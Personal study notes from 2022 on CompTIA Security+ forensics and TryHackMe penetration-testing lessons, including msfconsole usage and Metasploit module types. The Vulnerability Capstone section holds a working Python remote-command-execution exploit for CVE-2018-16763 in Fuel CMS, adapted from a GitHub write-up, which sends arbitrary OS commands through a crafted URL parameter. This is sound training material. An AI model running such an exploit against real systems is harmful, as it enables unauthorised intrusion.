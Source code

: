 # ITPro.TV: CompTIA Security+ (SY0-601) & TryHackMe: Jr. Penetration Tester

author:: Nathan Acks  
date:: 2022-04-13

# ITPro.TV: CompTIA Security+ (SY0-601)

## Digital Forensics Concepts

Order of volatility:

* CPU cache & registers (good luck!)
* Routing tables, process tables, ARP cache, kernel stats
* (Non-Kernel) RAM
* Swap, /tmp, etc.
* Storage, VM snapshots
* Archival data, backups, logs, print-outs

Preservation and documentation notes:

* Timestamp everything
* Note timezone differences
* Written reports and logs (also use these to establish the chain of custody)
* Witness testimony
* Use file hashes

Chain of custody is often represented as a simple paper log/form.

Tools of the trade:

* FTK Imager
* WinHex
* Autopsy
* EnCase Forensic
* `dd`

# TryHackMe: Jr. Penetration Tester

## Vulnerability Capstone

I couldn't get any of the exploits from Exploit DB to work for me, so I wound up doing a web search that landed me on a write-up for this room in GitHub; the provided exploit code is a little rough, but can be cleaned up to produce nice output without too much work:

```python
#!/usr/bin/python3

# Derived from https://github.com/SlizBinksman/THM-Vulnerability_Capstone-CVE-2018-16763/blob/main/rce.py

import argparse
import requests
from sys import exit
from bs4 import BeautifulSoup
from socket import error

delimeter1 = '<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">'
delimeter2 = '</div>'

def exploit():
	while True:
		try:
			payload = input("
[+] OS Command: ")
			response = requests.get(f"{args.URL}/fuel/pages/select/?filter='%2Bpi(%24a%3D('system'))%2B%24a('{payload}')%2B'")
			htmlText = str(BeautifulSoup(response.text,'html.parser'))
			array1 = htmlText.split(delimeter1)
			array2 = array1[1].split(delimeter2)
			print('
' + array2[-1].replace('

',''))

		except error:
			exit('
[-] Could Not Connect To Server')

if __name__ == '__main__':

	mainArguments = argparse.ArgumentParser()
	mainArguments.add_argument('URL',help='Target Website Hosting Vulnerable CMS',type=str)
	args = mainArguments.parse_args()

	try:
		exploit()
	except KeyboardInterrupt:
		exit('
[!] Quitting')
```

* [THM-Vulnerability_Capstone-CVE-2018-16763](https://github.com/SlizBinksman/THM-Vulnerability_Capstone-CVE-2018-16763)
* [THM-Vulnerability_Capstone-CVE-2018-16763 / rce.py](https://github.com/SlizBinksman/THM-Vulnerability_Capstone-CVE-2018-16763/blob/main/rce.py)
* [Python String split() Method](https://www.w3schools.com/python/ref_string_split.asp)
* [Replace all newline characters using python](https://stackoverflow.com/questions/54760850/replace-all-newline-characters-using-python)

## Main Components of Metasploit

Module categories:

* Auxiliary (odds-n-ends)
* Encoders (re-encode exploits to thwart signature-based anti-malware solutions)
* Evasion (attempt to directly evade anti-malware solutions)
* Exploits
* NOPS (no-op code that can be used to pad exploits to a needed size)
* Payloads (what you want to run if the exploit is successful; often, but not always, some kind of shell)
* Post (additional post-exploitation tools)

Payloads, in turn, can be divided into:

* Singles (self-contained; also indicated by the use of an `_` separating "shell" from the rest of the payload name, as in `shell_reverse_tcp`)
* Stagers (small applications that establish a connection back to the attacker to download a larger, more complex payload)
* Stages (payloads designed to be downloaded by a stager; also indicated by the use of a `/` separating "shell" from the rest of the payload name, as in `shell/reverse_tcp`)

## Msfconsole

You can use msfconsole as a shell, but there's no redirect functionality.

Use `history` to display a command history.

All settings are scoped to the current module unless explicitly scoped globally (`set -g`).

The `show` command can be used with any module type to list modules of that type, though Metasploit is a bit inconsistent about whether the type should be plural or not (`show auxiliary` vs. `show exploits`). When used in the context of a module, this usage of `show` will attempt to filter additional modules in a sensible way; for example, in the context of a Windows exploit, only Windows-based payloads will be shown.

The `back` command leaves the context of the current module.

Use `info` to get module information (which is not generally the same as "help", though it often does contain useful informaiton).

We can limit the `search` query to a particular type of module using the `type:` parameter (e.g., `search type:exploit wordpress`).

## Working with Modules

The common `RHOSTS` module option accepts IP addresses, ranges, CIDR networks, and even a file with one target per line (specify as `file:/path/to/file.txt`).

Note that the `PAYLOAD` and `SESSION` parameters are not generally listed by `show options`, but can still be set if desired.

You can reset individual parameters using `unset`, and reset the entire module using `unset all`.

* `set -g` = `setg`
* `unset -g` = `unsetg`
* `run` = `exploit`

Some exploit modules have a `check` option which attempts to determine if a target is vulnerable without actually exploiting it. Alternately, other modules have a paired auxiliary scanner. Many *don't* have a check at all. YMMV!

Meterpreter sessions can be backgrounded using the `background` command, and all sessions can be backgrounded using `CTRL + Z`. List sessions using the `sessions` command, and foreground a session using `session -i #`, where `#` is the session number.
